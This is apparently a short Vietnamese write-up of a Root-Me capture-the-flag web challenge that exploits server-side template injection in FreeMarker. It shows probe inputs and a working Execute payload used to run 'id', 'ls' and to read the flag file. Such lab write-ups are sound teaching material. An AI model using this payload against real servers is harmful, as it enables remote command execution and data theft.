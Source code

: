 Challenge: http://challenge01.root-me.org/web-serveur/ch41/

Vào trang web thử với input bình thường:
![alt text](image-2.png)

Sau đó thử với các input `${7*7}`, `{{7*7}}`, ... và ra kết quả là `${7*7}`
![alt text](image-3.png)
![alt text](image-4.png)

Ở đây ta thấy response trả về có thông tin về engine:
![alt text](image-5.png)

Ta sẽ thử inject 1 lệnh để chạy command trong engine FreeMaker:\
`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`
![alt text](image-6.png)

Tiếp tục:
`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls")}`
![alt text](image-7.png)

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat SECRET_FLAG.txt")}`
![alt text](image-8.png)







